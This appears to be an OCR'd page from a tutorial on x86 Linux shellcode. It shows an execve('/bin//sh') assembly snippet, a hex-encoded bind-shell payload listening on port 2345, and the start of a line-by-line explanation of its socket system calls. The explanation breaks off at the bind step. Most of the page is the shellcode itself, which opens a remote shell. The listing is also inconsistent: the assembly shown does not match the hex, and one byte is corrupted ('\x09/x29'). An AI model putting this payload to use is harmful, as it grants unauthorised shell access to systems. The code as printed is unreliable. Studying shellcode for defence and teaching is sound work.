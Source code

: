     xor eax, eax
    push eax
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp
    xor ecx, ecx
    mov edx, ecx
    mov al, 0xb
    int 0x80

The compiled shellcode in hexadecimal:

\x31\xc0\x50\x40\x50\x40\x50\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6
\x31\xc0\x31\xdb\x53\x66\x68\x09/x29\x66\x6a\x02\x89\xe1\x6a\x10\x51
\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x31\xdb\x53\x56\x89\xe1\xb3\x04
\xb0\x66\xcd\x80\x31\xdb\x53\x53\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80
\x89\xc7\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x03\x75\xf6\x31\xc0\x50
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x89\xca\xb0
\x0b\xcd\x80

### Detailed Explanation of the Assembly Code

The provided assembly code creates a bind shell that listens on port 2345. Below is a step-by-step breakdown of each part of the code:

1. Clear EAX

xor eax, eax
Clears the eax register by XORing it with itself.
This is a common technique to set a register to zero without using additional instructions.
2. Create a Socket

push eax             ; Push 0 (IPPROTO_IP)
inc eax              ; EAX = 1 (SOCK_STREAM)
push eax             ; Push 1 (SOCK_STREAM)
inc eax              ; EAX = 2 (AF_INET)
push eax             ; Push 2 (AF_INET)
mov ecx, esp         ; ECX = &[AF_INET, SOCK_STREAM, IPPROTO_IP]
mov bl, 1            ; EBX = 1 (SYS_SOCKET)
mov al, 0x66         ; EAX = sys_socketcall
int 0x80             ; Call kernel
mov esi, eax         ; ESI = socket_fd
Purpose: This block creates a socket for communication.
Explanation:
Pushes the arguments for the socket(AF_INET, SOCK_STREAM, IPPROTO_IP) system call onto the stack in reverse order:
AF_INET (Address Family for IPv4) = 2
SOCK_STREAM (TCP connection) = 1
IPPROTO_IP = 0
Sets up the registers for the sys_socketcall system call:
eax = 0x66 (system call number for sys_socketcall)
ebx = 1 (operation code for socket)
ecx points to the stack containing the arguments.
Executes the system call with int 0x80, which creates the socket and returns the file descriptor in eax.
Stores the socket file descriptor in esi for future use.
3. Bind the Socket

